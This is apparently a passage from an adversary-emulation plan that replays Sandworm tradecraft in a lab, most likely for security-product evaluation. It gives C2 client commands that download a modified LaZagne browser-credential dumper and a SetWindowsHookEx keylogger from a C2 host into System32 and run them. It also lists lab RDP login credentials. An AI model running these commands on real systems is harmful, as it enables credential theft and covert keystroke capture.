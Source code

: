 mslog.exe is a keylogger that uses the SetWindowsHookEx function; mslog.exe writes a keystroke log file to C:\Windows\System32\mslog.txt.

Sandworm obtains web browser credentials via oradump.exe.

Sandworm obtains domain admin credentials by keylogging an RDP session from a valid user.

Sandworm then gets a list of all domain hosts using dsquery.

### ☣️ Procedures

Upload the webCredDumper to gammu over Exaramel-Windows C2 channel (HTTPS / 192.168.0.4:443):

```bash
./evalsC2client.py --set-task Exaramel-Windows "get-file https://192.168.0.4/getFile/dumpWebBrowserCreds.exe C:\\Windows\\System32\\oradump.exe"
```

Execute the webCredDumper; you should see credentials from Chromium.

```bash
# Sandworm Team's CredRaptor tool can collect saved passwords from various internet browsers.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd C:\\Windows\\System32\\oradump.exe"
```

:warning: oradump (LaZagne) can take several minutes to finish executing. Give it 5 minutes... if it hasn't returned by then, the vendor product probably broke it.

[Modified LaZagne](../../Resources/browser-creds/Windows)

Upload keylogger to gammu.

```bash
./evalsC2client.py --set-task Exaramel-Windows "get-file https://192.168.0.4/getFile/keylogger.exe C:\\Windows\\System32\\mslog.exe"
```

Execute the keylogger, logging keystrokes to mslog.txt.

```bash
# Sandworm Team has used a keylogger to capture keystrokes by using the SetWindowsHookEx function.

./evalsC2client.py --set-task Exaramel-Windows "exec-background C:\\Windows\\System32\\mslog.exe -o C:\\Windows\\System32\\mslog.txt"
```

[Keylogger Source Code](../../Resources/keylogger/src/SetWindowsHookEx-Keylogger.cpp)

Now we will exercise the keylogger.

:warning: Switch to the gammu-RDP-session window.

Open the Windows RDP client on Gammu and *manually* type the following:

```
IP Address:  10.0.1.4
Username:    patreides
Password:    ebqMB7DmM81QVUqpf7XI
```
